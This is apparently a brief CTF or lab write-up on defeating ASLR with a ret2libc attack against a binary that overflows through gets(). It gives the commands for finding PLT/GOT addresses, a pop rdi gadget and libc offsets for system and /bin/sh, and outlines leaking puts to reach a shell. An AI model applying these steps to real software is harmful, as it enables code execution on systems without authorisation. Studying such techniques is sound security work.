 Bypassing ASLR and performing ret2libc attack.

After decompiling with ghidra, we can see three standard functions : puts, gets, fflush. We will attack puts.

1)Get function addresses in binary:
	
	# objdump -D executable | grep puts
	
	We get plt (0x4004e0) and got (0x601018) addresses.
	
2)Get the pop rdi and return address:
	
	# r2 executable 
	
	# [0x00400530]> /R pop rdi
	
	Pop rdi address is (0x004006d3)
	
3)Get address of main()
	
	# objdump -D executable | grep main
	
	Address is (0x400626)
	
4)Now find offset of puts, system, /bin/bash in libc
	
	#readelf -s /lib/x86_64-linux-gnu/libc-2.27.so | grep puts
	
	#readelf -s /lib/x86_64-linux-gnu/libc-2.27.so | grep system
	
	#strings -a -t x /lib/x86_64-linux-gnu/libc-2.27.so | grep /bin/sh 
	
	We got : 0x809c0, 0x4f440 and 0x1b3e9a

5) Overflow occurs when more than 71 bytes sent.

6) We send junk, pop rdi addr, then got addr of puts() and print the puts() address in libc by calling(jumping to) plt puts() and returning to main.

7) Leaked puts:0x7f9518d089c0

8) Use this address to calculate offsets, and calculate addresses of system(0 and /bin/sh in libc.
